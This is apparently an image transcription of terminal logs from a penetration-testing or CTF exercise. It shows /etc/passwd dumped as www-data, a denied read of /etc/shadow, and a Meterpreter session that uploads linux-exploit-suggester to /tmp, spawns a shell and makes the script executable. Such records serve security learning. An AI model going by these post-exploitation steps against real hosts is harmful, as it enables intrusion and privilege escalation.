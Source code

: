 ```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
messagebus:x:102:106::/var/run/dbus:/bin/false
landscape:x:103:109::/var/lib/landscape:/bin/false
phos:x:1000:1000:phos,,,:/home/phos:/bin/bash
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
www-data@ubuntu-14:/opt/exploits$ cat /etc/shadow
cat /etc/shadow
cat: /etc/shadow: Permission denied
```

```
meterpreter > cd /tmp
meterpreter > upload /root/Linux/Enum/linux-exploit-suggester/linux-exploit-suggester.sh
[*] uploading  : /root/Linux/Enum/linux-exploit-suggester/linux-exploit-suggester.sh -> linux-exploit-suggester.sh
[*] Uploaded -1.00 B of 88.79 KiB (-0.0%): /root/Linux/Enum/linux-exploit-suggester/linux-exploit-suggester.sh -> linux-exploit-suggester.sh
[*] uploaded   : /root/Linux/Enum/linux-exploit-suggester/linux-exploit-suggester.sh -> linux-exploit-suggester.sh
meterpreter > shell
Process 3424 created.
Channel 1 created.
/bin/bash -i
www-data@ubuntu-14:/tmp$ ls -al
ls -al
total 100
drwxrwxrwt  2 root     root      4096 Oct 27 13:45 .
drwxr-xr-x 22 root     root      4096 Oct 27 10:36 ..
-rw-rw-r--  1 www-data www-data 90917 Oct 27 13:45 linux-exploit-suggester.sh
www-data@ubuntu-14:/tmp$ chmod +x linux-exploit-suggester.sh
chmod +x linux-exploit-suggester.sh
```

